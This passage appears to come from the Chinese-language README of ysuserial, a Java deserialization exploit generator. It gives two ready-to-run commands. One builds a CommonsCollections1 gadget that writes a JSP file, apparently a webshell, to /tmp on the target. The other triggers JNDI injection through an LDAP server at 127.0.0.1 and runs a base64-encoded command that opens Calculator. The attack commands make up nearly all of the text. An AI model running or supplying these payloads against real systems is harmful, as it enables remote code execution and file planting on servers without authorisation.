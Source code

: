 **文件写入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```

效果图：

![image-20220618205022904](images/image-20220618205022904.png)

**触发 JNDI 查询注入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：
